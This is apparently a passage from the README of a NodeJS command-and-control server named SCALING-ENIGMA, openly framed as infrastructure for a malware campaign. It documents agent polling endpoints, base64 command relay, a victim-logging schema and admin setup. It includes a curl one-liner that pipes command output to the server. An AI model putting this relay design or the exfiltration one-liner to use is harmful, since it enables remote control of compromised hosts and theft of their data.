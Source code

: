 #### Command Relays

The command relay system allows an agent to request the server for command-line inputs, and to relay the output back to the server. The output will be stored in the agent logs for subsequent review. When agents are first registered with the guestbook, the command `whoami` is included as default, and can be updated by the `admin` user through another API interaction (see <b>Admin Section</b>).

`GET /control/:guestID` Retrieves the control flag (either 1 or 0). Agents can be designed to check this control flag to determine if the server is ready to send commands and receive output from the agent.

`GET /stdin/:guestID` Retrieves the command stored in the agent's guestbook as `latest_cmd` (see below). Defaults to `whoami`. If for any reason `latest_cmd` is blank, will then search for the Command document and retrieve the command stored there (see below APIs in the <b>Admin Section</b>).  To help mitigate compatibility issues, commands will be sent in base64 and decoding is expected at the agent side.

`POST /stdout/:guestID` Allows the agent to send the output of an invoked command as part of the POST request body. Similarly to help mitigate compatibility issues, it expects base64. A nifty way to do this is through a pipe: ``echo "stdout=`${cmd} | base64`" | curl -d @- SERVER/stdout/:guestID``

#### Logging

The core of the C2 logging system is the guestbook: 

```
    const guestSchema = new mongoose.Schema ({
        guestID: String,
        ip_address: String,
        time_in: String,
        time_out: String,
        activity: [{timestamp: String, comment: String}],
        filelist: [{file_id: mongoose.Schema.Types.ObjectId, filename: String}],
        latest_cmd: String
});
```

With the above schema, each agent / `guestID`'s activity is updated when the relevant APIs are accessed. Some examples: a file uploaded by `guestID` will have this event recorded under `filelist` with the appropriate `file_id` and `filename`; and under the command relay regime, output from the agent will be updated as an entry in `activity`. Ideally, after the agent has completed its tasks, the user will be able to have a detailed picture of what transpired with this particular host.

### Admin Section

The Admin Section handles <b>User Registration</b>, <b>Login / Logout</b>, <b>Asset and Logs Management</b>, and <b>Command and Control</b> functions. While these functions can account for most of the common tasks expected of a malware campaign, the users may also wish to access their database directly and perform the related actions there. The authentication system is provided by PassportJS, another popular NodeJS package. For basic security, SCALING-ENIGMA has incorporated a lockout policy to prevent the usual brute force attacks on the APIs.

#### User Registration and Login / Logout

`POST /register/c2` Meant as a one-time setup for new database instances to create the `admin` user with a chosen password, and adds `admin` to the whitelist (however, do note `admin` is not a valid `guestID` for the C2 APIs). Does nothing if `admin` is not specified as the username. Also does nothing if `admin` is already registered, hence no password overwrites are possible - the database entry needs to be manually dropped first.
